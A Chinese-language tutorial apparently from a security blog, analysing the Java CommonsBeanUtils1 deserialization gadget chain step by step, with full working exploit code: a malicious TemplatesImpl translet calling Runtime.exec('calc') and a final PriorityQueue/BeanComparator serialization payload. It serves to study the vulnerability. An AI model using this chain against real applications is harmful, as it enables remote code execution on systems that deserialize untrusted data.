




# java反序列化-CommonsBeanUtils1链

环境：

我这里还是用jdk8u65

maven添加依赖

```
<dependency>  
 <groupId>commons-beanutils</groupId>  
 <artifactId>commons-beanutils</artifactId>  
 <version>1.9.2</version>  
</dependency>  
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->  
<dependency>  
 <groupId>commons-collections</groupId>  
 <artifactId>commons-collections</artifactId>  
 <version>3.1</version>  
</dependency>  
<!-- https://mvnrepository.com/artifact/commons-logging/commons-logging -->  
<dependency>  
 <groupId>commons-logging</groupId>  
 <artifactId>commons-logging</artifactId>  
 <version>1.2</version>  
</dependency>
```

---

## CommonsBeanUtils 前置（javaBean）

Apache Commons 工具集下除了 `collections` 以外还有 `BeanUtils` ，它主要用于操控 `JavaBean` 。

- 以 Utils 结尾，一般这都是一个工具类/集

这里指的就是实体类的 get，set 方法

CommonsBeanUtils 这个包可以操作 JavaBean

例如：

```
package org.mixbp.CB;

public class Baby {
    private String name = "babybabyohilike";

    public String getName(){
        return name;
    }

    public void setName (String name) {
        this.name = name;
    }
}

----------------------------------------------

// 用注解
import lombok.Getter;
import lombok.Setter;

@Getter
@Setter
public class Baby {
    private String name = "babybabyohilike";
}
```

这里定义两个简单的 getter setter 方法，如果用 `@Lombok` 的注解也是同样的，使用 `@Lombok` 的注解不需要写 getter setter。

---

Commons-BeanUtils 中提供了一个静态方法 `PropertyUtils.getProperty` ，让使用者可以直接调用任意 JavaBean 的 getter 方法，示例如下

```
package org.mixbp.CB;

import org.apache.commons.beanutils.PropertyUtils;

public class CB {
    public static void main(String[] args) throws Exception {
        System.out.println(PropertyUtils.getProperty(new Baby(), "name"));
    }

}
```



可以看到Commons-BeanUtils 会自动找到name属性的getter方法，也就是getName()，然后自动调用并返回值。

这种形式相当于任意函数调用

---

## CommonsBeanUtils1链分析

### 尾部的TemplatesImpl链

CommonsBeanUtils1链尾部还是通过动态加载 TemplatesImpl 字节码的方式进行攻击

但是又和我们之前利用的不一样，我们之前都是通过调用newTransformer()方法来进行加载。

先看看整个TemplatesImpl链

```
TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() ->

TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()

-> TransletClassLoader#defineClass()
```

可以看到我们之前利用TemplatesImpl进行动态加载字节码实际上是跳过了第一步，直接调用newTransformer()

在链子的最开头 `TemplatesImpl.getOutputProperties()`，这是一个 getter 方法，并且作用域为 public

所以可以通过 CommonsBeanUtils 中的 `PropertyUtils.getProperty()` 方法获取并调用

所以我们`PropertyUtils.getProperty()` 方法对应的参数应该这么填

```
PropertyUtils.getProperty(TemplatesImpl, outputProperties)
```

---

### 中间的链子

我们已经找到了尾部链子，然后我们要从尾部链子的开头也就是`PropertyUtils.getProperty()`方法往前找，查找用法，看看哪里调用了`getProperty()`方法



追到BeanComparator类的compare方法，这个方法经常被其他方法调用，所以很适合作为我们的链子

然后继续找谁调用了compare方法，优先找能够进行序列化的类

找到`PriorityQueue`这个类的`siftDownUsingComparator()`方法调用了 `compare()`



这里很眼熟，其实这里就是CC4的前半段链子

继续查调用追到同一个类中的 `siftDown()` 方法

然后就是同个类下的 `heapify()` 方法调用了 `siftDown()` 方法，入口类也就是`PriorityQueue`类

readObject方法里调用了heapify()方法

---

### EXP编写

整条链子已经找到了

```
PriorityQueue.readObject()
PriorityQueue.heapify()  ->
	
	PriorityQueue.siftDown()
	PriorityQueue.siftDownUsingComparator() ->
	
		BeanComparator.compare() ->
PropertyUtils.getProperty(TemplatesImpl, outputProperties)
	->
			TemplatesImpl.getOutputProperties()
			TemplatesImpl.newTransformer()
			TemplatesImpl.getTransletInstance()
			TemplatesImpl.defineTransletClasses()
```

可以发现前半部分跟CC4完全一样

主要分成两个部分

- 一部分是利用 `TemplatesImpl` 动态加载字节码。
- 另一部分是通过 `CommonsBeanUtils` 中的 `PropertyUtils` 读取 getter 请求。

---

#### 尾部TemplatesImpl动态加载字节码

首先先写一个恶意类，这里恶意类必须要继承`AbstractTranslet`，并且由于继承了这个抽象类，还需要重写这个类里面的方法

```
package src.DynamicClassLoader.TemplatesImplClassLoader;  
  
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
  
import java.io.IOException;  
  
// TemplatesImpl 的字节码构造  
public class TemplatesBytes extends AbstractTranslet {  
    public void transform(DOM dom, SerializationHandler[] handlers) throws TransletException{}  
    public void transform(DOM dom, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException{}  
    public TemplatesBytes() throws IOException{  
        super();  
 Runtime.getRuntime().exec("Calc");  
 }  
}
```

我这里用的这个Calc.class

```
package org.mixbp.CC;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Calc extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

然后就是经典的TemplatesImpl链子的POC

这里本来要用反射去修改一些值的，我们可以自己自定义一个设置私有属性的方法，命名为 `setFieldValue`，这样比每个都用反射方便很多。

```
    public static void setFieldValue(Object obj,String fieldName,Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
```

我们先尝试一下直接调用newTransformer()方法，看看能不能弹出计算器

```
package org.mixbp.CB;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.beanutils.PropertyUtils;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CB {
    public static void main(String[] args) throws Exception {

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        TemplatesImpl templatesimpl = new TemplatesImpl();
        byte[][] codes = {code};
        setFieldValue(templatesimpl, "_name","aaaa");
        setFieldValue(templatesimpl, "_bytecodes",codes);
        setFieldValue(templatesimpl,"_tfactory",new TransformerFactoryImpl());

        templatesimpl.newTransformer();
    }

    public static void setFieldValue(Object obj,String fieldName,Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }


}
```

成功弹出计算器

---

#### 中间链子与加入入口类

在编写中间链子的时候先看看BeanComparator类的compare()方法

```
public int compare( T o1, T o2 ) {

        if ( property == null ) {
            // compare the actual objects
            return internalCompare( o1, o2 );
        }

        try {
            Object value1 = PropertyUtils.getProperty( o1, property );
            Object value2 = PropertyUtils.getProperty( o2, property );
            return internalCompare( value1, value2 );
        }
        catch ( IllegalAccessException iae ) {
            throw new RuntimeException( "IllegalAccessException: " + iae.toString() );
        }
        catch ( InvocationTargetException ite ) {
            throw new RuntimeException( "InvocationTargetException: " + ite.toString() );
        }
        catch ( NoSuchMethodException nsme ) {
            throw new RuntimeException( "NoSuchMethodException: " + nsme.toString() );
        }
    }
```

这个方法传入两个对象，如果 this.property 为空，则直接比较这两个对象；如果 this.property 不为空，则用 PropertyUtils.getProperty 分别取这两个对象的 this.property 属性，比较属性的值。

**`property` 表示 Java Bean 中某个属性的名称**（字符串形式），用于指定排序时基于哪个属性进行比较。

所以如果需要传值比较，肯定是需要新建一个 `PriorityQueue` 的队列，并让其有 2 个值进行比较。而且 `PriorityQueue` 的构造函数当中就包含了一个比较器。然后我们还需要

加入入口类并编写EXP

```
package org.mixbp.CB;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.beanutils.PropertyUtils;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CB {
    public static void main(String[] args) throws Exception {

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        TemplatesImpl templatesimpl = new TemplatesImpl();
        byte[][] codes = {code};
        setFieldValue(templatesimpl, "_name","aaaa");
        setFieldValue(templatesimpl, "_bytecodes",codes);
        setFieldValue(templatesimpl,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beancomparator = new BeanComparator();
        
        // 将 property 的值赋为 outputProperties setFieldValue(beanComparator, "property","outputProperties"); 
        setFieldValue(beancomparator, "property","outputProperties");
        
        // 创建新的队列，并添加恶意字节码  
        PriorityQueue priorityQueue = new PriorityQueue<>(beancomparator);
        priorityQueue.add(templatesimpl);
        priorityQueue.add(templatesimpl);
    }

    public static void setFieldValue(Object obj,String fieldName,Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }


}
```

成功弹出计算器

---

### 完整EXP

我们可以发现我们的链子在调用add()方法的时候就会代码执行弹出计算器，是因为add()方法中调用了compare()方法，

所以我们需要控制它在反序列化前不能执行命令，在反序列化时候再执行

直接先add()常量，然后后续再反射修改就行了。

```
priorityQueue.add(1);
priorityQueue.add(1);
```

**最终EXP**

```
package org.mixbp.CB;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.beanutils.PropertyUtils;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CB {
    public static void main(String[] args) throws Exception {

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        TemplatesImpl templatesimpl = new TemplatesImpl();
        byte[][] codes = {code};
        setFieldValue(templatesimpl, "_name","aaaa");
        setFieldValue(templatesimpl, "_bytecodes",codes);
        setFieldValue(templatesimpl,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beancomparator = new BeanComparator();
        
        // 创建新的队列，并添加恶意字节码
        PriorityQueue priorityQueue = new PriorityQueue<>(beancomparator);
        priorityQueue.add(1);
        priorityQueue.add(1);

        // 将 property 的值赋为 outputProperties 一定要在add()方法之后修改
        setFieldValue(beancomparator, "property","outputProperties");


        // 修改队列中的两个值
        setFieldValue(priorityQueue,"queue",new Object[]{templatesimpl,templatesimpl});

        serialize(priorityQueue);
        unserialize("ser.bin");

    }

    public static void setFieldValue(Object obj,String fieldName,Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

### 细节问题注意

**我们将 property 的值赋为 outputProperties的时候一定是要在add()方法调用之后去改。否则会报错。**

原因很简单

```
public int compare( T o1, T o2 ) {

        if ( property == null ) {
            // compare the actual objects
            return internalCompare( o1, o2 );
        }

        try {
            Object value1 = PropertyUtils.getProperty( o1, property );
            Object value2 = PropertyUtils.getProperty( o2, property );
            return internalCompare( value1, value2 );
        }
```

在add()方法调用时会调用compare()方法，如果此时我们已经给property赋值了，property的值不为null，所以就会走到try中的代码

```
        try {
            Object value1 = PropertyUtils.getProperty( o1, property );
            Object value2 = PropertyUtils.getProperty( o2, property );
            return internalCompare( value1, value2 );
        }
```

然后这里o1和o2我们还没改，这里o1和o2都是1，这就会导致

- 尝试通过反射调用 `Integer.getOutputProperties()` 或 `Integer.isOutputProperties()`
- `Integer` 类不存在这个属性 → 抛出 `NoSuchMethodException`

然后就会报错导致我们的链子没法用。

所以这里修改变量的顺序很重要。

---

## 总结

这条链子总的来说就是CC4链的开头和结尾中间插入了`PropertyUtils.getProperty`进去

完整流程

```
PriorityQueue.readObject()
PriorityQueue.heapify()  ->
	
	PriorityQueue.siftDown()
	PriorityQueue.siftDownUsingComparator() ->
	
		BeanComparator.compare() ->
PropertyUtils.getProperty(TemplatesImpl, outputProperties)
	->
			TemplatesImpl.getOutputProperties()
			TemplatesImpl.newTransformer()
			TemplatesImpl.getTransletInstance()
			TemplatesImpl.defineTransletClasses()
```


